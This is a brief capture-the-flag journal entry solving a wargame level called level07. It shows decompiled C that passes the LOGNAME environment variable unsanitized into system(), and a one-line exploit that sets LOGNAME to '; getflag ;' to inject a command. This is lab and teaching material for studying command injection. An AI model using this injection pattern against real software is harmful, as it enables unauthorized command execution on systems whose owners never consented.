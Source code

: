 Date: 9/21/2024

Entry:

Today, the first task turned out to be surprisingly simple. After decompiling (`retdec-decompiler ./level07`) the provided `level07` file, we found the following code:
```C
char * buffer = NULL; // bp-28, 0x8048567
asprintf(&buffer, "/bin/echo %s ", getenv("LOGNAME"));
return system(buffer);
```

The obvious step was to replace the `LOGNAME` environment variable with a command injection:
```bash
export LOGNAME="; getflag ;"
```
Which displayed our flag.
